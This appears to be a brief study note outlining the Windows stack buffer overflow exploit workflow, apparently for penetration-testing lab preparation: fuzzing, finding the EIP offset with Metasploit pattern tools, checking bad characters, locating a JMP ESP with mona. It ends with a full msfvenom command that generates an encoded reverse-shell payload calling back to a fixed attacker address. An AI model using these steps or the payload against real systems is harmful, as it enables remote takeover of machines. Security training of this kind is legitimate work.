 1. Fuzz
- Use Spiking
- Use simple python script
2. Find offset
- Use metasploit `pattern_create` and `pattern offset`
```
msf-pattern_create -l 800
msf-pattern_offset -l 800 -q 42306142
```
3. Find bad character
- Immunity https://bulbsecurity.com/finding-bad-characters-with-immunity-debugger-and-mona-py/
4. Find module and JMP ESP
- Use metasploit nasm_shell
```
msf-nasm_shell
jmp esp
add eax,12
```
- Use debugger and mona to find JMP ESP
```
!mona modules
!mona find -s “\xff\xe4” -m “libspp.dll”,
```
5. Check jmp esp
```
Use \xCC as the payload. You should see a bunch of INT in the EIP
```

6. Create shellcode
 ```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.199 LPORT=443 -f py –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
 ```
